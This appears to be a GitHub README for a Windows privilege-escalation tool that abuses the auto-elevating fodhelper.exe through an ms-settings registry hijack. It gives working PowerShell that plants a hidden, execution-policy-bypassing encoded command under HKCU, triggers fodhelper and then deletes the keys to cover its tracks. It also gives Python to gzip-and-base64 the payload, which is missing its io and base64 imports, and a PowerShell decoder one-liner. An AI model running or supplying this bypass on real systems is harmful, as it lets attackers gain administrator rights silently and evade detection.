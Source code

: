 # Theory

> Unlock hidden doors with trust as your key

### Vulnerability

fodhelper.exe itself does not execute registry keys per se; However, it reads certain registry keys to determine its behavior. By misusing the "ms-settings" key, we can potentially get fodhelper to run values within a key

fodhelper.exe is designed to run with elevated privileges without prompting the user with a uac

### Raw Payload

```Powershell
$payload="powershell.exe -w h -NoP -NonI -Exec Bypass -enc $command"
reg add "HKCU\Software\Classes\.hacker\Shell\Open\command" /d $payload /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".hacker" /f

fodhelper.exe

Start-Sleep -s 3
reg delete "HKCU\Software\Classes\.hacker\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```
or
```Powershell
$payload="powershell.exe -w h -NoP -NonI -Exec Bypass -enc $command";reg add "HKCU\Software\Classes\.hacker\Shell\Open\command" /d $payload /f;reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".hacker" /f;fodhelper.exe;Start-Sleep -s 3;reg delete "HKCU\Software\Classes\.hacker\" /f;reg delete "HKCU\Software\Classes\ms-settings\" /f;
```

### Encryption and Encode

<b>I know it's corny, but compression is a form of encryption</b>

We want to compress and encode this command to where powershell can decompress

Compression often generates unwanted characters, so we will also encode after compressing

```python
# Please forgive me, I hate leaving comments
# The code should speak for itself

import gzip

def compress_and_base64(input):
    # Convert string to bytes
    bytes = input.encode('utf-8')

    # Initialize buffer
    buffer = io.BytesIO()

    # Compress stream with gzip
    with gzip.GzipFile(fileobj=buffer, mode='wb') as file:
        file.write(bytes)

    # Save stream to variable
    compressed = buffer.getvalue()

    # Encode, so invisble characters are saved
    encoded = base64.b64encode(compressed)

    # Convert bytes to string
    return encoded.decode('utf-8')
```

<b>Extraction Method</b>

```powershell
# Decode and Decompress
# Output will be a string

(New-Object IO.Compression.GZipStream(
    # Decode
    [System.IO.MemoryStream][Convert]::FromBase64String($COMPRESSED_DATA_HERE),

    # Decompress stream with gzip
    [System.IO.Compression.CompressionMode]::Decompress
) |

# % is shorthand for "foreach-object"
%{

    # Read from gzip stream, convert to ascii
    New-Object System.IO.StreamReader($_, [System.Text.Encoding]::ASCII)

# Convert all to single string
}).ReadToEnd() 
```

or

```powershell
(New-Object IO.Compression.GZipStream([System.IO.MemoryStream][Convert]::FromBase64String(COMPRESSED_DATA_HERE), [System.IO.Compression.CompressionMode]::Decompress) |%{New-Object System.IO.StreamReader($_, [System.Text.Encoding]::ASCII)}).ReadToEnd()
```
